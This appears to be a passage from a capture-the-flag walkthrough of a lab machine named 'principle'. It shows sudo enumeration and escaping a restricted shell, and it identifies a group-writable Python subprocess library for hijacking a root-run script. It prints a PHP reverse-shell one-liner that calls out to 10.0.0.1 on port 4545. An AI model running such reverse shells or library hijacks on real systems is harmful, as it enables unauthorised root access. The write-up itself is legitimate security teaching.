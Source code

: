 Interesting, we are part from the `sml` group.
Let's see what we can do with `sudo`:

```
Matching Defaults entries for elohim on principle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User elohim may run the following commands on principle:
    (root) NOPASSWD: /usr/bin/python3 /opt/reviewer.py
```

We can execute the python script `/opt/reviewer.py` as `root`, but we are trapped in a `rbash` shell.
So, we need to escape from the `rbash`.
We can escape from the `rbash` and get a `bash` shell using php:

```
elohim@principle:~$ php -r '$sock=fsockopen("10.0.0.1",4545);exec("/bin/bash -i <&3 >&3 2>&3");'
```

To move confortably we will disable the following restricted aliases:

```
$ unalias cat
$ unalias vi
```

If we check the `reviewer.py` script, we can see that we don't have permissions to write it, but we can read it:

```
elohim@principle:~$ ls -la /opt/
```

```
-rwxr-xr-x  1 root root 1072 Jul  7 15:17 reviewer.py
```

And we can see that the `reviewer.py` script file is using the following libraries:

```python
import os
import subprocess
```

If we remember, `elohim` was writting in the subproces library:

```
nano /usr/lib/python3.11/subprocess.py
```

Let's check the library permissions:

```
elohim@principle:~$ ls -la /usr/lib/python3.11/subprocess.py
-rw-rw-r-- 1 root sml 85745 Jul 11 19:04 /usr/lib/python3.11/subprocess.py
```

As the `sml` group has write permissions, and we are in the `sml` group, we can write this library.
We can take advantage of this and perform a python library hijacking.
